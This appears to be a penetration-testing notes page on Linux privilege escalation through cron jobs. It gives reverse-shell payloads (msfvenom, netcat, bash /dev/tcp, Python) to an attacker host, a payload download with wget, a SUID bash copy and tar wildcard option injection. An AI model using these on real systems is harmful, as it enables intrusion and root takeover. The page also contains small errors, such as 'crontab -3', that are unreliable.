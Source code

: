 # Crontab
***

- Cron is a background service that runs continuously and checks crontab files for scheduled jobs.
- Crontabs are configuration files that specifies the schedule for running cron jobs. Each user on a Linux system can have their own crontab.
```sh
# location
ll /etc/crontab

# Edit crontabs
crontab -3
```
- Cronjobs are commands that users want to automate at specified times or intervals.

The cron daemon periodically checks the crontab file to determine if any scheduled cronjobs need to be executed.

## Cronjobs Format
A crontab is essentially a specialized file format that the 'cron' process recognizes, allowing it to execute each line sequentially. Crontabs are structured with six specific values:
```
'#' m h dom mon dow user  command
  '#'					ID
  m						Minute
  h						Hour
  dom					Day of the month
  mon					Month
  dow					Day of the week
  user				User running the command
  command		  Command should be run
```

## Exploitation
### File Permissions
If the attacker manages to overwrite one of the currently running jobs, it can result in the execution of a shell.
#### Example: in a crontabs there is
```
5  *    * * * root    /home/user4/Desktop/task.sh
```
- If you prefer not to specify a value for that particular field, simply use an asterisk (*) instead.

##### Attacker Machine
- Method 1: Msfvenom
```sh
msfvenom -p cmd/unix/reverse_netcat lhost=attackerIP lport=7777 R
  # R means raw output
```
- Set up a netcat listener
```sh
rlwrap nc -nlvp 7777
```

##### Target Machine
Method 1: Overwrite task.sh with the output of msfvenom
```sh
echo 'mkfifo /tmp/eqfjhi; nc AttackerIP 7777 0</tmp/eqfjhi | /bin/sh >/tmp/eqfjhi 2>&1; rm /tmp/eqfjhi' > task.sh
```

- Method 2: Replace task.sh with shell contents
```
#!/bin/bash
bash -i >& /dev/tcp/attackerIP/7777 0>&1
```

- Method 3: Replace task.sh with Python3 contents
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("attackerIP",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/bash","-i"\]);'
```

When task.sh is executed, it will establish a shell connection to the attacker's machine.

### PATH Environment Variable
If the PATH variable starts with /home/<username>
![alt text](https://raw.githubusercontent.com/masjadaan/Knowledgebase/main/Penetration_Testing/Exploitation/Linux/Privilege_Escalation/60f00530b0f543ef96ca4a2e6a0c0d0f.png)
- Generate a file named task.sh, and populate it with the following content:
```sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
- Make task.sh executable
```sh
chmod +x task.sh
```

- After executing task.sh, you will find rootbash in the /tmp directory. Run it with the -p flag.
```sh
/tmp/rootbash -p
```

### Wildcards
If crontabs executes a script that utilizes tar with wildcards like *, we can exploit this situation.
![alt text](https://raw.githubusercontent.com/masjadaan/Knowledgebase/main/Penetration_Testing/Exploitation/Linux/Privilege_Escalation/88fea8e66c054a18a1be09b7ee57bd39.png)
#### Attacker Machine
- Msfvenom
```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=attackerIP LPORT=7777 -f elf -o shell.elf
```
- Create http server
```sh
python3 -m http.server 9999
```
- set up a netcat listener
```sh
rlwrap nc -lnvp 7777
```

#### Target Machine
- Get shell.elf & make it executable
```sh
wget http://attackerIP:9999/shell.elf
chmod +x shell.elf
```
- Create the following
```sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
Tar provides command-line options that enable the execution of additional commands as part of a checkpoint feature. When the tar command is executed within a cron job, the wildcard (*) will expand to include these files. As their filenames match valid tar command-line options, tar will interpret them as such and treat them as command-line options rather than filenames, and you get a shell on attacker machine.
